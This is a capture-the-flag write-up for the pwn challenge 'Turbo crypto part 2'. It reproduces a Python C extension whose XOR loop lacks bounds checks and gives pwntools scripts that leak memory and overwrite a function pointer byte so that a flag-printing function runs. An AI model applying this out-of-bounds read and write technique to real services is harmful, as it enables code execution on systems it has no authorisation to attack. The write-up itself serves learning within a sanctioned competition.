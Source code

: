 # Turbo crypto part 2

Category: Pwn

Points: 900

Solves: 1

> Using the key you extracted, we found a [link](https://drive.google.com/uc?id=19mmImjpreALZSs0D88BtLY65cFBkHsMC&export=download) to the source code for `turbofastcrypto`. There happens to be a secret `flag` file on the server, and you need to extract it.

The authors generously decided to place a first blood bounty of 1 month of discord nitro on this challenge :heart:.

The source code contains a `turbofastcrypto.c` (reproduced below), a shared object (which I had no experience pwning) and a bunch of other files which were mostly setup files.

```c
#define PY_SSIZE_T_CLEAN
#include <Python.h>

char IV[64] = "IRS{secrets_are_revealed!!}";

#pragma GCC optimize ("O0")
__attribute__ ((used)) static void print_flag() { system("cat flag"); }

static PyObject *encrypt(PyObject *self, PyObject *args) {
    const char *cmd;
    Py_ssize_t len;
    if (!PyArg_ParseTuple(args, "s#", &cmd, &len)) return NULL;
    for (int i = 0; i < len; i++) IV[i] ^= cmd[i];
    return PyBytes_FromStringAndSize(IV, len);
}

static PyMethodDef mtds[] = {
    {"encrypt", encrypt, METH_VARARGS, "Encrypt a string" },
    { NULL, NULL, 0, NULL }
};

static struct PyModuleDef moddef = {
    PyModuleDef_HEAD_INIT,
    "turbofastcrypto", 
    NULL,
    -1,
    mtds
};

PyMODINIT_FUNC PyInit_turbofastcrypto() { return PyModule_Create(&moddef);}
```

This code looks really intimidating (probably the hard part of this challenge). It defines a python C extension, which is built into a shared object, which is then loaded into the CPython runtime, so python code can call these functions.

At first, I thought the bug was some kind of improper use of the cpython functions `PyArg_ParseTuple` and `PyBytes_FromStringAndSize` but according to the documentation they seem to be used correctly.

The `for` loop was much more interesting though. Each character of the user's input is XORed with the IV array and stored back to the IV array. However, there is no bounds checking here, so if the user's input is longer than the size of IV (64 bytes), we could leak, and potentially write memory!

I wrote a small script to leak memory:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
p.sendline(bytes(arr))
p.recvuntil("Encrypted:")
# probably should use safeeval but whatever
l = eval(p.recvline())
print(hexdump(l))
```

As expected, we see the flag, then a bunch of memory addresses.

![image-20211227072236432](./images/dump.png)

If you run this a few times, you'll find that the leak addresses are different every time, except for the first byte (the LSB, things are little endian here) ~~(and also the second digit of the second byte but that's not important)~~. This is probably due to PIE or some other kind of ASLR for shared objects, which randomizes the addresses of functions. Anyway, I ran `objdump -d <the shared object>` to find out what these functions were:

![image-20211227072656684](./images/objdump.png)

Hmmm, the `encrypt` function ends in `0xc0`, which is exactly the same as the leaked address we saw earlier! And the `print_flag` function's address only differs by 1 byte! If we're able to modify the `0xc0` to `0xa0` we can (hopefully) get the `print_flag` function to be called.

We can do this by XORing the 72nd byte (the location of the first `0xc0`) with 96, since `0xc0 ^ 96 = 160 = 0xa0`. Fortunately, 96 is within the ASCII range, so it shouldn't have any issues.

I made slight modifications to the script to set the 72nd byte:

```python
from pwn import *
p = remote("challs.sieberrsec.tech", 3477)

# anything ^ 0 = anything
arr = [0 for _ in range(200)]
arr[72] = 96
p.sendline(bytes(arr))
p.interactive()
```

When I ran the script, nothing happened and I was really worried that I had messed up somewhere. However, when I pressed enter, the script sent the flag. I realized that instead of overwriting the return pointer, I had overwritten some kind of function table that cpython uses to jump to the C extensions. When the function is executed again, the `print_flag` function is called instead of the `encrypt` function. However, the program crashes afterwards with the error:

```
Traceback (most recent call last):
  File "./tfc.py", line 4, in <module>
    ciphertext = turbofastcrypto.encrypt(plaintext)
SystemError: <built-in function encrypt> returned NULL without setting an error
```

which is completely expected and ok since I've already gotten the flag.

## Comments

I actually got really confused when writing this writeup cos I saw `0x0c` as `0xc0` and thought the index was 64. During the CTF I used `.index` to find the writeup so it was fine. I also got the chance to use the really useful pwntools `hexdump` function, which was cool.

Thanks again to the authors for this great challenge and the nitro!